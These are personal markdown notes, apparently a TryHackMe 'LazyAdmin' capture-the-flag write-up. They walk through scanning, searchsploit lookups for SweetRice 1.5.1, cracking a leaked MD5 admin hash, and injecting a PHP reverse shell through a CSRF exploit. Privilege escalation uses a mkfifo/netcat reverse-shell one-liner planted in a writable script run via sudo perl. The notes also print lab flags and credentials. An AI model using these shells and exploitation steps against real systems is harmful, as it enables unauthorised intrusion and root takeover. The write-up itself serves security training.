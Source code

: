 # LazyAdmin

```bash
export IP=10.10.216.244
```

## Scans

### Nmap

Command:
```bash
mmap -sC -sV -oN scans/nmap.initial $IP
```

Open Ports found:
```
22 -- ssh
80 -- webpage
```

URL found in page source:`https://bugs.launchpad.net/ubuntu/+source/apache2/+bug/1288690`


### Gobuster

Command:
```bash
gobuster dir -w wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP
```

Directories found:
```
/content
```

URL found in /content: `http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/`


### Nikto

Command:
```bash
nikto -host $IP
```

## Searchsploit

Command:
```bash
searchsploit SweetRice
```

Command: to see more info or *examine* an exploit
```bash
searchsploit -x /path/to/exploit.html
```

this exploit is uploadable and offers a login page:
```
SweetRice 1.5.1 - Cross-Site Request Forgery
```

Command: to copy an exploit
```bash
searchsploit -m /path/to/exploit.html
```


this exploit explains the location of a backup .sql file in `/content/inc/mysql_backup`:
```
SweetRice 1.5.1 - Backup disclosure
```

found in `/content/inc/mysql_backup`:

username and hash found: `manager:42f749ade7f9e195bf475f37a44cafcb`

run through `crackstation.net` reveals MD5 hash and password `Password123`


## Exploit
Command: runs the exploit and opens the login page -- Proof Of Concept
```bash
firefox exploit.html
```

check `/content/inc/ads/hacked.php` to see if php 'hacked' info  page is loaded in

if so: copy `revshell.php` code into `exploit.html`, remember to change $IP and $port and $value

start netcat listening port:
```bash
nc -lnvp 8888
```

Command: opens the login page as a background process and injects php reverse shell
```bash
firefox exploit.html &
firefox exploit.html
```

Visit `http://$IP/content/inc/ads/revshell.php` to spawn shell


### Upgrading to a tty shell

Command: uses `/usr/bin/script`, so no need for Python
```bash
/usr/bin/script -qc /bin/bash /dev/null
```

To stabilize shell: (type carefully, beware of typos)
```bash
<Ctrl><Z>
stty raw -echo
<F><G>
nc -lnvp 8888
export TERM=xterm
```

**User Flag Found**: `THM{63e5bce9271952aad1113b6f1ac28a07}`


## PrivEsc

Searching for files with SUID privilege shows `/usr/bin/perl /home/itguy/backup.pl`

It is not writeable, but it calls on `/etc/copy.sh` which is writeable

so edit it with nano and add: learned from -- [PentestMonkey cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 7777 >/tmp/f
```

Remember to change `$IP` and **new** listening `$port`.

then starting the **new** netcat listening port:
```bash
nc -lnvp 7777
```

On Target Machine:
```bash
sudo -l
sudo /usr/bin/perl /home/itguy/backup.pl
```

Root access shell achieved

To stabilize shell: (type carefully, beware of typos)
```bash
<Ctrl><z>
stty raw -echo
<f><g>
nc -lnvp 7777
export TERM=xterm
```

TTY upgrade:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


**Root Flag Found**: `THM{6637f41d0177b6f37cb20d775124699f}`

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
